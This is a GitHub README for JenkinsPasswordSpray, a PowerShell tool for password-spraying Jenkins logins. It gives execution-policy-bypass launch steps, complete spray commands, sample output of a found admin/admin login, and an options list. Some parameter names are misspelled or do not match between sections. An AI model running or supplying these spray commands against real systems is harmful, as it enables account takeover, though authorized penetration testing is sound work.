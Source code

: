 # JenkinsPasswordSpray
JenkinsPasswordSpray is a tool witten i PowerShell to perform password spraying attacks against users of a [Jenkins](https://jenkins.io/) instance. Be careful not to lock out accounts!

## Quick Start Guide
Open a PowerShell terminal from the Windows command line with `powershell.exe -exec bypass` and import the module with `Import-Module JenkinsPasswordSpray.ps1`.

The required options are `URL`, `Username`/`UsernameFile` and `Password`/`PasswordFile`.

The following command will spray against a list of users and attempt to authenticate using each username and a password from the specified list. If a valid login is found, the script will stop unless `-ContinueOnSuccess` is set to `$True`. A confirmation will be prompted unless the `-Force` switch is set. The results of the spray will be output to a file called `sprayed-jenkins.txt`

The script will also try to help you clean up your URL if it's invalid or contains trailing elements like `/login`, as this will make the URL invalid for password spraying. But because your target Jenkins instance might be located in a subdirectory, this feature asks for confirmation before trimming the URL.

Type `Get-Help Invoke-JenkinsPasswordSpra` to see the different options.

### Example command

```PowerShell
Invoke-JenkinsPasswordSpray -URL http://jenkins:8080 -UsernameFile .\users.txt -PasswordFile .\pws.txt -ContinueOnSuccesss $true -Force -Outfile .\sprayed-jenkins.txt
```

### Example command with output

```PowerShell
PS C:\Windows\temp> Invoke-JenkinsPasswordSpray -URL http://10.0.0.7:8080/login/notvalid -Username jenkinsadmin -Password admin -ContinueOnSuccesss $true -Force -OutFile jenkins-sprayed.txt

[-] Detected trailing elements /login/notvalid in provided URL http://10.0.0.7:8080/login/notvalid.
[-] Will now try to remove it for you.
Do you want to use the URL http://10.0.0.7:8080 instead?
[Y] Yes  [N] No  [?] Help (default is "Y"):
[+] Replacing URL: http://10.0.0.7:8080/login/notvalid
[+] Will use this URL: http://10.0.0.7:8080
[+] Testing if URL is valid
[+] Provided URL: http://10.0.0.7:8080 returns 200 OK.

[+] Start password spraying the URL http://10.0.0.7:8080 with 1 user(s) and 1 password(s). Total request count is 1. Current time is 15:21
[+] Writing successful logins to jenkins-sprayed.txt
[Attempt 1 / 1] - Spraying username:jenkinsadmin with password:admin
[+] SUCCESS! Username:jenkinsadmin Password:admin

[+] Password spraying is complete
[*] Any passwords that were successfully sprayed have been written to jenkins-sprayed.txt
```

### Invoke-JenkinsPasswordSpray Options

```
UsernameList      - A list of usernames to spray
Username          - A single username to spray.
Password          - A single password to spray for each specified username.
PasswordList      - A list of passwords, one per line, to use for the password spray.
ContinueOnSuccess - Continue spraying, even if a valid account is found.
Force             - Forces the spray to continue without prompting for confirmation.
OutFile           - A file to output the results to.
```

Please fill free to file issues or pull requests. You can also write to me on Twitter [@chryzsh](https://twitter.com/chryzsh)